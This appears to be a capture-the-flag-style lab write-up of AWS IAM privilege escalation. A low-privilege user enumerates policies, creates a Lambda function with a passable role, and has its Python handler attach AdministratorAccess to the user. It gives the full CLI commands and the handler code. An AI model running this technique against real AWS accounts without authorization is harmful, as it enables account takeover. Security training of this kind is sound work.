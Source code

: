 ### Pass Role : Lambda

 List AWS managed policies attached to the user. Also attempt to create a user to verify that a denied message is received 
 
```
aws iam list-attached-user-policies --user-name student --profile PTAcademyJllerena
aws iam list-user-policies --user-name student --profile PTAcademyJllerena
aws iam create-user --user-name Bob --profile PTAcademyJllerena
 
```
![image](https://user-images.githubusercontent.com/46797181/224526113-bcf89a03-6a78-4795-a59c-c3d7cf920327.png)

Check the policy permissions and details. `aws iam get-user-policy --user-name student --policy-name terraform-20230312051026109100000001 --profile PTAcademyJllerena`

![image](https://user-images.githubusercontent.com/46797181/224526152-523acc00-e589-41f4-9637-3dd482379a4c.png)

List role on AWS account which can be passed to Lambda. ` aws iam list roles --profile PTAcademyJllerena`
![image](https://user-images.githubusercontent.com/46797181/224526313-aeac9b87-1932-4c6c-aca5-447f66e70c4c.png)
![image](https://user-images.githubusercontent.com/46797181/224526322-2c54aa02-3f2c-43a7-a8aa-040b9913002d.png)
![image](https://user-images.githubusercontent.com/46797181/224526339-9a1115b9-3172-4f20-9a06-bc75059cbd26.png)
![image](https://user-images.githubusercontent.com/46797181/224526347-05c050a9-fd93-4686-9991-38ae997aac92.png)

Check lab11lambdaiam role details.

```
aws iam get-role --role-name lab11lambdaiam --profile PTAcademyJllerena
aws iam list-role-policies --role-name lab11lambdaiam --profile PTAcademyJllerena
aws iam get-role-policy --role-name lab11lambdaiam --policy-name terraform-20230312051026653800000003 --profile PTAcademyJllerena

```
![image](https://user-images.githubusercontent.com/46797181/224526533-14c33639-6075-4046-a576-4e4aad128396.png)

Create a python script with the following content and compress it as zip with `zip aws.zip aws.py`

```
import boto3
def handler(event, context):
 iam = boto3.client("iam")
 response = iam.attach_user_policy(
  UserName="student", PolicyArn="arn:aws:iam::aws:policy/AdministratorAccess"
 )
 return response

```

Create a lambda function on AWS account. `aws lambda create-function --function-name jllerena3 --runtime python3.8 --zip-file fileb://aws.zip --handler aws.handler --role arn:aws:iam::350092314133:role/lab11lambdaiam --profile PTAcademyJllerena`

Important Note: The handled must match the python file name, in this case `aws.py` -> `aws.handler`

![image](https://user-images.githubusercontent.com/46797181/224527373-5f3b525c-aeb0-4eaa-b8c1-a051366b23ee.png)

Invoke the newly created Lambda function `aws lambda invoke --function-name jllerena jllerena_out.txt --profile PTAcademyJllerena`
![image](https://user-images.githubusercontent.com/46797181/224527404-2dbc0a52-148c-4b96-a17a-05e82301bccf.png)

![image](https://user-images.githubusercontent.com/46797181/224526797-670a745c-fccb-4ef1-a7f3-2050b6daf346.png)
Important Note: If something is wrong with the function `"FunctionError": "Unhandled"` appears and the out file will give the error detail


Check attached policies on student user. `aws iam list-attached-user-policies --user-name student --profile PTAcademyJllerena`
![image](https://user-images.githubusercontent.com/46797181/224527481-16fd81ee-fc13-4fdf-9c9d-d065f0ad4882.png)

As seen in above image, the user has administrator privilege, we can verify this by creating a new user `aws iam create-user --user-name jllerena --profile PTAcademyJllerena`

![image](https://user-images.githubusercontent.com/46797181/224527532-eb6f0b39-534d-44aa-9a9d-df3ff74827f4.png)

Privilege escalation has been achieved. 





